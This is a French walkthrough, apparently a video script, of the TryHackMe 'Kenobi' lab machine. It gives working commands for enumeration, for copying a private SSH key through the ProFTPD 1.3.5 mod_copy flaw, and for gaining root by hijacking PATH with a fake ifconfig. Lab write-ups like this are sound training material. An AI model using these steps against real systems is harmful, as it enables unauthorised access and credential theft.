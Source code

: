 Yo les geek,  dans cette video je vais vous montrer comment pirater la machine   Kenobi de TryHackMe.
# Recon
Pour la reconnaissance je commence par effectuer un scan avec l'outil nmap. J'utilise l'option -Pn pour un scan plus ou moins discret, -T4 pour accélérer le scan, -sVC pour afficher la version des services derrière chaque port et tester des scripts de vulnérabilité sur ses derniers, -p- pour analyser tout les 65000 ports possibles. 

Pendant ce temps je vais sur mon navigateur pour vérifier s'il y a une potentiel application web héberger sur le port 80.
On a belle t bien une page web hébergé mais on a rien d'intéressant dans le code source.

J'effectue rapidement une énumération web avec l'outil gobuster pour vérifier s'il y a des pages cachées.
Le résultat montre que le fichier robots existe. Ce fichier permet aux serveurs de préciser aux moteurs de recherche les pages à ne pas indexé lorsqu'un utilisateur fais une recherche. 
En le consultant je découvre l'existence de la page admin mais rien d'interessant.

```
└─$ nmap -Pn -T4 -sV -p- 10.10.130.80
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-08 08:30 GMT
Warning: 10.10.130.80 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.130.80 (10.10.130.80)
Host is up (0.080s latency).
Not shown: 65451 closed tcp ports (conn-refused), 73 filtered tcp ports (no-response)
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         ProFTPD 1.3.5
22/tcp    open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http        Apache httpd 2.4.18 ((Ubuntu))
111/tcp   open  rpcbind     2-4 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
2049/tcp  open  nfs         2-4 (RPC #100003)
38583/tcp open  mountd      1-3 (RPC #100005)
43293/tcp open  mountd      1-3 (RPC #100005)
45791/tcp open  nlockmgr    1-4 (RPC #100021)
57433/tcp open  mountd      1-3 (RPC #100005)
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
le résultat du scan montre qu'il y a pas mal de ports ouverts.
Je commence d'abord par le service ftp. 
Jutilise l'outil  searchsploit pour vérifier s'il existe un exploit sur la version ProFTPD 1.3.5.
Il me propose 4 résultats dont un fichier .txt

je copie le fichier dans mon répertoire actuel avec la commande searchsploit -m le nom fichier.

Après lecture je découvre qu'il existe une vulnérabilité qui permet de copier des fichier d'un répertoire à l'autre dans le serveur distant.

il suffit d'établir une connexion TCP vers la machine et d'utiliser les commande `site cpfr` pour copier le contenue d'un fichier et `site cpto` pour le coller dans un nouveau fichier.
pour verifer cela je me connecte et j'essaie de copier le fichier passwd dans le répertoire /tmp.  ça marche bien mais quand j'essaie de le copier dans le copier dans le dossier html, je découvre que je n'ai malheureusement pas la permission d'écriture dans ce dossier.

Passons maintenant au service `nfs` qui permet en bref au serveur de partager des fichiers et des répertoires dans un réseau.
Ce protocole donne la possibilité à un client du même réseau de monter ce contenue localement. Cela signifie que les fichiers et les répertoires du serveur deviennent accessibles et manipulables comme s'ils étaient stockés localement sur ma machine.

Alors j'utiliste la commande `showmount -e` pour verifier les répertoires partagées, 
```
└─$ showmount -e 10.10.130.80                                                        
Export list for 10.10.130.80:
/var **
```
Puisque le dossier /var est partagée, il suffit de le monter sur ma machine avec la commande
└─$
```
sudo mount -t nfs -o vers=3 10.10.130.80:/var nfs_mnt
```
On peut remarquer que le répertoire /var/tmp est inscriptible mais on rien d'intéressant dans le reste.

Passons maintenant au service samba qui permet également de partager des fichiers et des repertoires dans un réseau.
Mais contrairement au protocole nfs, samba requiert une authentification ou non selon les configurations mises en place.

Alors pour afficher les répertoires partagées, je vais utiliser la commande smbclient -N pour se connecter sans mot de passe et -L pour lister les répertoire partagées
Les partages qui ce terminent par $ sont des répertoire inaccessibles créés par défaut.
Ce qui m'intéresse ici  est anonymous.

Pour se connecter à se partage, il suffit d'exécuter la commande précédente sans l'option -L et le nom du partage à la fin
```
└─$ smbclient -N \\\\10.10.130.80\\anonymous
```

Maintenant que je suis connecter, j'utilise ls pour lister le contenue et get pour télécharger le fichier log
Après avoir lu le contenu du fichier,  on se rends compte que l'utilisateur kenobi s'est créer une clés privé ssh.
# exploit
Alors tout ce que j'ai à faire c'est d'utiliser la faille du protocole ftp en copiant le fichier id_rsa dans le repertoire /var/tmp dont j'ai un accès nfs et le droit d'écriture.
└─# nc 10.10.231.51 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.231.51]
site cpfr /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
site cpto /var/tmp/id_rsa
250 Copy successful
# foothold
Puisque que j'ai la clés privé ssh je peux me connecter par ssh en tant que kenobi sans avoir à fournir de mot de passe.

Pour la phase d'escalade de privilège je vais commencé par énumérer les fichier SUID.
Les fichiers SUID sont des fichiers qui peuvent être exécuter en utilisant l'identité du propriétaire.
~$
```
 find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null
 ```
Le fichier le plus suspet ici est le binaire menu. Le SUID me permet dans se cas de l'exécuter en tant que root. 
Lorsque je l'éxecute je me rends compte qu'il execute la commande ifconfig.
En expérant qu'il n'utilise pas un chemin absolu pour l'exécuter, je vais essayer de l'obliger à exécuter un faut fichier ifconfig qui me permettra d'être root.

Pour cela j'ajoute le répertoire /tmp au `PATH` qui est la variable contenant une liste de chemins utiliée pour exécuter un script dont le chemin n'est pas précisé.
Ensuite je crée dans tmp un fichier ifconfig qui exécuter la commande `/bin/bash`

Lorsque le binaire menu essaye d'exécuter `ifconfig`, il utilise le premier chemin de la variable PATH qui est /tmp.
Le contenue du faux ifconfig est exécuté et là j'ai un accès root.

J'espère que vous avez aimer cette video, n'hesitez pas écrire ce que vous en pensé en commentaire, à mettre un pousse bleu et à vous abonner pour ne pas manquer les prochaines videos. Chao
